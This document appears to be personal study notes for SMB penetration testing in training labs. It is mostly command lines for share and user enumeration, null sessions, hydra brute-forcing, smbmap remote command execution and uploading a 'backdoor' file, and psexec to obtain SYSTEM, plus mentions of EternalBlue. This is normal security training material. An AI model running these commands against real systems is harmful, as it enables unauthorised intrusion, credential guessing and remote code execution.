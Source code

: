 Smb-double-pulsar-backdoor —>nmap
vuln-ms17-010 =eternal blue —>nmap
linux/samba/is_known_pipename  => This above module triggers an arbitrary shared library load vulnerability in Samba versions 3.5.0 to 4.4.14

Access shares, get user name, brute force user and login again with bruteforced users.
Tips:- enum users and later brute force

## Listing Shares
- nmap --script smb-enum-shares.nse -p445 192.144.106.3
- auxiliary/scanner/smb/smb_enumshares
- enum4linux -S 192.144.106.3
- smbclient -L 192.144.106.3 -N

If username and password is provided, more enum can be done…
![](../../Attachements/Pasted%20image%2020250223174953.png)

## NULL SESSION

rpcclient -U "" -N 192.126.66.3
![](../../Attachements/Pasted%20image%2020250223175027.png)
srvinfo = gives server info in RPC CLIENT
enumdomusers = enum users
lookupnames admin = sid of admin


## ENUM4LINUX
```bash
enum4linux -a 1.1.1.1 = Automated script for enumuration
enum4linux -u administrator -p vagrant -U 1.1.1.1
```

## NetExec
    The network execution tool
```bash
netexec smb 10.10.11.35 -u 'atish' -p '' --shares => guest access
netexec smb 10.10.11.35 -u '.' -p '' --shares =>guest access


```






## NMAP
```bash 
- ls -al /usr/share/nmap/scripts/ | grep smb
- nmap -p 445 --script smb-os-discovery 10.10.125.84
- **`nmap -p 445 --script smb* 10.10.125.84` ⇒runs all script**
- nmap -p 445 --script smb-enum-shares 10.10.125.84 ⇒shares
- nmap -p445 --script smb-protocols 10.0.17.200
- nmap -p445 --script smb-security-mode 10.0.17.200
```

 ### Nmap enum using credentials
 ```bash
- nmap -p445 --script smb-security-mode 10.0.17.200
- nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-domains--script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- --script smb-enum-groups
- --script smb-enum-domains
- --script smb-enum-services
- nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
```

## SMBCLIENT
```bash
smbclient -L //10.10.11.35 -N

smbclient -L ////192.126.66.3// -N =Nullsession, list shares

smbclient //10.10.125.84/ADMIN$ = connect to the share with annon

smbclient //10.10.125.84/ADMIN$ -N

smbclient -U '.' //10.10.125.84/ADMIN$ => random anon session

smbclient //10.10.125.84/IPC$ = connect to IPC

smbclient //192.208.227.3/public -N => connected

smbclient [//10.10.125.84/BillySMB](notion://10.10.125.84/BillySMB) ⇒ To access SMB Shares

smbclient [//10.10.125.84/BillySMB](notion://10.10.125.84/BillySMB) ⇒ To access SMB Shares

smbclient -L 192.212.251.3 -U jane ⇒ List Shares, better give passsword

smbclient [//192.212.251.3/jane](notion://192.212.251.3/jane) -U jane ⇒ Access jane share using username jane.

**`TIP:` Sometime Some shares wont be listed but can be viewed using above command.**
```
![](../../Attachements/Pasted%20image%2020250223175631.png)
mget = command to download file
![](../../Attachements/Pasted%20image%2020250223185217.png)


# SMBMap
Allows users to enumerate samba share 
Allows file upload/download/delete
```bash
smbmap -u guest -p "" -d . -H 10.10.125.84 =shares also

smbmap -u administrator -p smbserver_771 -d . -H 10.0.28.123 = admin will have more privilege

smbmap -H 10.0.28.123 -u administrator -p smbserver_771 -x 'ipconfig’ => can be used to run commands

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -L = List drives on local host

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ = List content of C

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor' ⇒ Upload File in C drive

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ ⇒ Verify upload

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --download 'C$\flag.txt' ⇒ Download File

- smbmap -H 192.212.251.3 -u admin -p password1 ⇒ ONCE CRED IS KNOWN
```

# Bruteforce
```bash
hydra -l admin -P /usr/share/password.txt 10.10.10.10 smb
hydra -L User.txt -P /usr/share/password.txt 10.10.10.10 smb
```


# Exploiting SMB with PsExec
![](../../Attachements/Pasted%20image%2020250223181056.png)
![](../../Attachements/Pasted%20image%2020250223181136.png)
![](../../Attachements/Pasted%20image%2020250223181214.png)
![](../../Attachements/Pasted%20image%2020250223181247.png)
![](../../Attachements/Pasted%20image%2020250223181306.png)

## Mannual
We need to have credetials to run this too. We can bruteforce the credentials before using this tool.
psexec.py is a tool in python to authenticate with the system.
```bash
psexec.py Administrator@10.2.29.107 cmd.exe
```
![](../../Attachements/Pasted%20image%2020250223181540.png)
![](../../Attachements/Pasted%20image%2020250223181551.png)
nt authority\system = highest authority

## Metasploit
Now lets use psexec in **`METASPOLIT
NOTE: when we use [psexec.py](http://psexec.py) it wont upload anything to target but metaspolic psexec upload malacious code in the target.
![](../../Attachements/Pasted%20image%2020250223181727.png)
![](../../Attachements/Pasted%20image%2020250223181736.png)
![](../../Attachements/Pasted%20image%2020250223181749.png)



